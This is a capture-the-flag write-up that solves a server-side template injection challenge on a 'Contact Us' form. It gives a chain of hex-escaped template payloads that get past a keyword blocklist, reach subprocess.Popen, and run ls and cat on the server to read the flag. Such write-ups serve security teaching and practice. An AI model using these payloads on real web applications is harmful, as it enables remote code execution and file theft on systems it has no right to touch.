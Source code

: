 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
In this challenge a "Contact Us" page is given. According to the name of the challenge, we are trying to find some kind of injection on this page.
By filling in the form fields, we see that the Name field is reflected on the page. For example, by entering "Test" in the Name field, the following message will be displayed:
"Dear Test, we have received your message..."

Now we enter {{4*7}} in the Name field. the following message will be displayed:
"Dear 28, we have received your message..."

So it turns out that this field has the SSTI vulnerability.
We try different payloads to exploit this vulnerability, but it can be seen that many of the common words used in the SSTI vulnerability payloads are blocked.
For example, by entering {{''.__class__}} in the Name field, the following message will be displayed:
"An attack has been detected in this phrase: '.'"

By trying different payloads and leaving out the items that are blocked, we can finally get an RCE on the server
(By calling the popen subprocess, which by searching we find that it is in the 360th index from the list of subprocesses):
{{()|attr('\x5f\x5fclass\x5f\x5f')}}
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)}}

By executing the ls command, we see that there is a help file in the current path:
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)('ls',stdout=-1)|attr('communicate')()}}

Open this file by executing the following command:
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)(('cat','help'),stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}

We will see the following sentence inside the help file:
"Flag is the last file I put in /opt/tmuctf/ folder..."

Since the flag is the last file that is placed in the /opt/tmuctf/ folder, so we run the following command to see the list of files of this folder (from newest to oldest).
Certainly the newest file is the flag file.
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)(('ls','-t','/opt/tmuctf/'),stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}

So we open the newest file with the following command:
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)(('cat','/opt/tmuctf/gTKF6mHwMC'),stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}

Inside this file is the following Base64 encoded string:
VE1VQ1RGezBoIV95MHVfYnlwNDU1M2RfNGxsX215X2JsNGNrbDE1NyEhIV9fMV81aDB1bGRfaDR2M19iMzNuX20wcjNfYzRyM2Z1bH0=

By decoding This string we get the flag:
TMUCTF{0h!_y0u_byp4553d_4ll_my_bl4ckl157!!!__1_5h0uld_h4v3_b33n_m0r3_c4r3ful}
